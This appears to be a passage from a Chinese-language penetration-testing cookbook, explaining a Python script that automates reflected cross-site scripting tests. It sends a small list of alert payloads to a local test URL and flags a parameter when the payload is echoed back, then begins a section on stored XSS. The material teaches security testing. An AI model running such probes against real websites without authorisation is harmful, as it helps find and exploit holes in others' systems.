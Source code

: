 以下是使用此脚本时生成的输出示例：

```py
Parameter vulnerable

Attack string: <script>alert(1);</script>

Give me XSS:
<script>alert(1);</script>
```

## 它是如何工作的…

此脚本类似于早期的目录遍历脚本。这一次，我们创建了一个有效负载列表，而不是一个字典，因为检查字符串和有效负载是相同的：

```py
payloads = ['<script>alert(1);</script>', '<BODY ONLOAD=alert(1)>']
```

然后，我们使用与之前类似的循环遍历这些值，并逐一提交：

```py
for payload in payloads:
  req = requests.post(url+payload)
```

每个有效负载都会附加到 URL 的末尾，并以一个未加编码的参数发送，如`127.0.0.1/xss/xss.php?comment=`。有效负载将添加到该字符串的末尾，以便生成有效语句。然后检查该字符串是否出现在下一页中：

```py
if payload in req.text:
    print "Parameter vulnerable\r\n"
    print "Attack string: "+payload
    print req.text
    break
```

跨站点脚本非常简单，而且非常容易自动化和检测，因为攻击字符串通常与结果相同。目录遍历或 SQLi 的困难在于结果并不总是可预测的，我们将在后面遇到。如果成功的跨站点脚本攻击，则会发生。

## 还有更多…

可以通过提供更多的攻击字符串来扩展此攻击。在 Mozilla FuzzDB 中可以找到许多示例，我们将在后面的*自动模糊化*部分脚本中使用这些示例。此外，可以使用原始的`urllib`库应用各种形式的编码，本书中以各种不同的示例展示了原始的`urllib`库。

# 基于参数的自动跨站点脚本

我已经说过，跨站点脚本编写非常简单。有趣的是，以脚本方式执行存储的跨站点脚本要稍微困难一些。在这一点上，我可能应该收回我先前的话，但无论如何。这里的困难在于系统通常从一个页面获取输入结构，提交到另一个页面，然后返回第三个页面。下面的脚本旨在处理最复杂的结构。

我们将创建一个脚本，该脚本接受三个输入值，读取并正确提交所有三个值，并检查是否成功。它与早期的基于 URL 的跨站点脚本共享代码，但在执行上有根本的不同。

## 怎么做…

下面的脚本是功能测试。这是一个脚本，可以在类似于 sublime text 或 IDE 的框架中手动编辑，因为存储的 XSS 可能需要修改：
